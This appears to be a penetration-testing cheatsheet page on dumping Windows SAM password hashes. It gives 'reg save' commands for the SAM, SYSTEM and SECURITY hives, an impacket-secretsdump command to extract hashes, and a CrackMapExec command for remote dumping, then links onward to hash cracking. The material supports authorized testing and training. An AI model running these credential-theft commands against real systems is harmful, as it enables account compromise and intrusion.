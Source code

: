 # Windows SAM

You need to have administrator privileges to access the SAM Registry hive.

## Registry Hives

| Registry Hive | Description |
|-|-|
| `hklm\sam` | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system` | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.

## Dumping the SAM Registry Hive

Dump the SAM Registry hive using the `reg` command and transfer the files to your attacker machine.:

```batch
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

Use `impacket-secretsdump` to extract the hashes from the SAM Registry hive:

```bash
impacket-secretsdump -sam sam -system system -security security LOCAL
```

## Dumping SAM Remotely

Dump it using `CrackMapExec`:

```bash title="Dump SAM with CrackMapExec"
cme smb <ip> -u <username> -p <password> --sam
```

:::tip

The output format is `username:RID:LMHASH:NTHASH`.

:::

## Cracking the Hashes

Navigate to the [SMB Commands Cheatsheet](/commands-cheatsheet/smb#brute-forcing-credentials).
